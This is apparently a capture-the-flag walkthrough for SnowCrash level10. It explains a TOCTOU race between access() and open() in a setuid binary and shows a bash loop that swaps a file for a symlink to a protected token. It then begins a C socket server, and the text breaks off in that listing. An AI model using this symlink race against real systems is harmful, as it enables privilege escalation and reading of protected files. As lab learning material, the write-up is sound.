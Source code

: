 With this information, our first idea in order to break the executable is to pass the path to an empty file with the correct permissions for **level10** as first argument, and then create a symbolic link to the `token` file after the call to `access()`.  
It seems to be a well-known exploit called `TOCTOU` (Time of Check to Time of Update), as explained in the manpage of `access()`:
```
Warning: Using these calls to check if a user is authorized to, for example, open a file before actually doing so using open(2) creates a security hole, because the user might exploit the short time interval between checking and opening the file to manipulate it.
```

Our first attempt is to:
- create a listening TCP socket with **netcat**
- run the executable with **GDB**
- set a breakpoint after `access()`
- update the file
- continue the execution.

With this method, we are able to succesfully pass the first condition (`access()`), but not the second one (`open()`) due to a lack of permissions.  
Unfortunately, **GDB** doesn't seem to work when an executable has a **setuid** flag.

If we cannot use **GDB** and we cannot update the executable to make it sleep for some seconds, our sole solution is to brute force the level by running in a loop the executable and a custom script until the timing of their instructions match our desired output which is:
- creation of an empty file named `token` in `/tmp/level10`
- execution of `access()` in `level10`
- deletion of `token` and creation of symbolic link to `~/token`
- execution of `open()` in `level10`

We create our custom script.

```bash
level10@SnowCrash:~$ mkdir /tmp/level10 && cd /tmp/level10
level10@SnowCrash:/tmp/level10$ vim script
level10@SnowCrash:/tmp/level10$ chmod +x script
```

```bash
while true; do
  touch token
  rm token && ln -s ~/token token
  sleep 0.2
  rm token
done
```

Then we create and run a custom socket server, because `level10` sends a EOF and closes the connection with our netcat server after every execution.

```bash
level10@SnowCrash:/tmp/level10$ vim server.c
level10@SnowCrash:/tmp/level10$ gcc -std=c99 server.c
level10@SnowCrash:/tmp/level10$ ./a.out
```

```c
#include <arpa/inet.h>
#include <netinet/in.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/select.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <unistd.h>

#define BUFFER_LEN 1024
#define PORT 6969
```
